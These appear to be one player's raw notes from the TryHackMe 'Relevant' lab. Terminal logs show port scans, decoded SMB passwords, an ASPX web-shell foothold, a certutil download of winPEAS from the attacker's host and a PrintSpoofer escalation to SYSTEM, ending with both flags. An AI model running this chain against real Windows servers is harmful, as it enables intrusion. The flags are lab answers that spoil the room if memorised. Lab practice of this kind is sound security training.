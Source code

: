 thm - 2021_05_20 Relevant.md

# Relevant

## Basic stuff
└─$ nmap -sV -sC -o nmap 10.10.199.92                                                                 3 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 10:18 EDT
Nmap scan report for 10.10.199.92
Host is up (0.36s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-20T14:18:40+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-19T14:07:46
|_Not valid after:  2021-11-18T14:07:46
|_ssl-date: 2021-05-20T14:19:20+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m00s, deviation: 3h07m50s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-20T07:18:40-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-20T14:18:44
|_  start_date: 2021-05-20T14:08:07

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.58 seconds



Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-26 02:14 EDT
Nmap scan report for 10.10.27.108
Host is up (0.25s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown

the last 3 ports are normally used for online virtual environment liks aws


[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
/tmp/smbmore.k4kFsZ (END)

┌──(kali㉿kali)-[~/tryhackme/relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

┌──(kali㉿kali)-[~/tryhackme/relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$ 



./evil-winrm.rb -i 10.10.42.202 -u Bob -p '!P@$$W0rD!123'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

Error: An error of type HTTPClient::ConnectTimeoutError happened, message is execution expired                                                                                    

Error: Exiting with code 1


http://10.10.77.204:49663/nt4wrksv/dog.aspx


c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
c:\Users\Bob\Desktop>


c:\Users\Bob>certutil -urlcache -f http://10.11.37.146:8000/winPEAS.bat winPEAS.bat
certutil -urlcache -f http://10.11.37.146:8000/winPEAS.bat winPEAS.bat



:\inetpub\wwwroot>cd nt4wrksv                                                                                                                             
cd nt4wrksv                                                                                                                                                
                                                                                                                                                           
c:\inetpub\wwwroot\nt4wrksv>dir                                                                                                                            
dir                                                                                                                                                        
 Volume in drive C has no label.                                                                                                                           
 Volume Serial Number is AC3C-5CB5                                                                                                                         
                                                                                                                                                           
 Directory of c:\inetpub\wwwroot\nt4wrksv                                                                                                                  
                                                                                                                                                           
05/26/2021  04:12 AM    <DIR>          .                                                                                                                   
05/26/2021  04:12 AM    <DIR>          ..                                                                                                                  
05/26/2021  03:37 AM             3,389 cat.aspx                                                                                                            
05/26/2021  03:31 AM             3,392 dog.aspx                                                                                                            
07/25/2020  08:15 AM                98 passwords.txt                                                                                                       
05/26/2021  03:34 AM             3,423 pig.aspx                                                                                                            
05/26/2021  04:12 AM            27,136 PrintSpoofer.exe                                                                                                    
               5 File(s)         37,438 bytes                                                                                                              
               2 Dir(s)  21,040,545,792 bytes free                                                                                                         
                                                                                                                                                           
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd                                                                                                     
PrintSpoofer.exe -i -c cmd                                                                                                                                 
[+] Found privilege: SeImpersonatePrivilege                                                                                                                
[+] Named pipe listening...                                                                                                                                
[+] CreateProcessAsUser() OK                                                                                                                               
Microsoft Windows [Version 10.0.14393]                                                                                                                     
(c) 2016 Microsoft Corporation. All rights reserved.                                                                                                       
                                                                                                                                                           
C:\Windows\system32>whoami                                                                                                                                 
whoami                                                                                                                                                     
nt authority\system                                                                                                                                        
                                                                                                                                                           
C:\Windows\system32>      




C:\Users\Administrator\Desktop>dir                                                                                                                         
dir                                                                                                                                                        
 Volume in drive C has no label.                                                                                                                           
 Volume Serial Number is AC3C-5CB5                                                                                                                         
                                                                                                                                                           
 Directory of C:\Users\Administrator\Desktop                                                                                                               
                                                                                                                                                           
07/25/2020  08:24 AM    <DIR>          .                                                                                                                   
07/25/2020  08:24 AM    <DIR>          ..                                                                                                                  
07/25/2020  08:25 AM                35 root.txt                                                                                                            
               1 File(s)             35 bytes                                                                                                              
               2 Dir(s)  21,040,545,792 bytes free                                                                                                         
                                                                                                                                                           
C:\Users\Administrator\Desktop>type root.txt                                                                                                               
type root.txt                                                                                                                                              
THM{1fk5kf469devly1gl320zafgl345pv}                                                                                                                        
C:\Users\Administrator\Desktop>    


completed 26may2021 1916